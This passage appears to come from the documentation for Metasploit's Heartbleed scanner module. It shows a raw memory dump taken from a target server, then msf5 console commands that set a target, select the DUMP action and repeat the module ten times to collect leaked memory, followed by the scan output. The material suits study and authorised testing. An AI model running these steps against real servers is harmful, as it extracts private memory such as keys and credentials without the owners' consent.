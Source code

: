 ```
�����5E����X?3w`>�"��p�퓱�Φ����q�/�}=9����'�PuJ�]�ȝ?l�]�cR$����-m���H,�D^��Ș{��5x��oS���-�ݴ��	�:v���)6��jInld��P�-1��ɾ�
                                                                                                                         ��DyE�����l�"��e�#��Ǽ���-<KN�{�<�T�����&���E�:Y��D����ʎ�������c#�I��h5<�-�y�ұ�ST$m��U�8||�j�S.ϖ���W�~d��j��訦Dx�&�օ��U���Gj��b'�0��h�р.:�W����a���p�X'�X��N7es����C'�ɒ$(�bM��܍�Rݜ13
1�ŏmA�,�s����)!��9��v-��B���Ь�%�o���k�kW�U�x���\`Sl�]@�$W�F�k�a���j�x���0��p�'�N���1n�}]�[d*9H�����@�YVE����'��s�
           E�DMV~�,F�-�y�m�C)V)×D>J���o�Ȼ����U���#�S�`E� ܚ|���l��᨝-�
                                                                    �ok{�΄�C2��
                                                                               �g���N1A����B/w��q��)�U!�Ɠ)�U���)�``��)�U�@ɓ)�U!��)�U���B/w��!@��)�U!@��)�U���B/w��1��5E����X?3w`>�"��p�퓱�Φ����q�/�}=9����'�PuJ�]�ȝ?l�]�cR$����-m���H,�D^��Ș{��5x��oS���-�ݴq���)�U!��)�U��8NE<���GGΡ��)L��ңf�(+c��������'B<uΓU�PiS6�K��tgF�Z
              ������
�`dXQ4��
�m�Q�J�G�R�(��w�!?e��1��J�On��}�v@é���eW8�N���p3�)�U A���)�U  ���@'�/!�]7ڊ!�\7ڊ<�)�U 0���)�U1���)�U1��)�UAǕ)�U 1�\7ڊ�\7ڊ0 �\7ڊ!�)�U!�9�)!��)�U!@<�)�U !`;�)�U!0ӓ)1Q%c��ʹ�����������������!kaliUn�R�0h�"!ĝ���jfx��&���~�!�\7ڊ!ĝ���jfx��&���~�1����������������1����������������1
V��WS��\���J�%�!݈��҅]�%�q�A`��'�Uѓ)�U�ջ'�UA��'�U��)�U�ջ'�UAP��)�U�ד)�U0��)�Ua1����������������� ĕ)�U�`p�0�"ϙ�L���f�p����^�=�6��=�q�nw�9��0D}�ci��t���G=�x����сFAp�0�:%6�Gh�F(��U�TDw'��le�G�`}��9-����Z�Qe"�C)kUݠ�e6t7���6�u)��1�����
mL�n�*�]`����D�>a���K�@V|����q�'�UHn�'�U�v�'�U0v�'�U�X�'�U�X�'�U�b�'�U�b�'�U�b�'�Up�'�U�W�'�U�a�'�q�'�U�m�'�Uxt�'�U t�'�UxS�'�UpR�'�UPo�'�U�k�'�UXO�'�U`q�'�U�m�'�U�u�'�U(u�'�U�V�'�U�V�'�U`f�'�f�'�U]�'�U�\�'�U�o�'�U8l�'�U�U�'�Ue�'�U�[�'�U�p�'�U@m�'�U�n�'�U�k�'�U�M�'�UHM�'�U S�'�UR�'�UO�'�U�R�'�U�Q�'�U�N�'�U�M�'�U�L�'�UA���)�UA�@a7ڊ@a7ڊ@Ǖ)�U@Ǖ)�U��W��(E ��
[&(yu0�.���I�V���t�1��fE�I̮N;��p˫�]�2�&^}        �� #����Ƃ�T�|i2�&~<�Q;T�B�TAﴕ:�/��H�^W��x�����]͓!���]�O��bC��Z�A�gw��it��Zy
```

The contents of `/etc/hosts` is visible in this file, as it was edited to prevent the `gethostbyname failure` issue previously noted.

### Utilizing repeat

Because arbitrary memory is dumped, a high volume application that uses openSSL will cycle potentially valuable data
fairly often. The `repeat` command can be used to execute the module multiple times.

```
msf5 > use auxiliary/scanner/ssl/openssl_heartbleed
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set rhosts 222.222.2.222
rhosts => 222.222.2.222
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > set action DUMP
action => DUMP
msf5 auxiliary(scanner/ssl/openssl_heartbleed) > repeat -n 10 run

[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
[*] 222.222.2.222:443     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```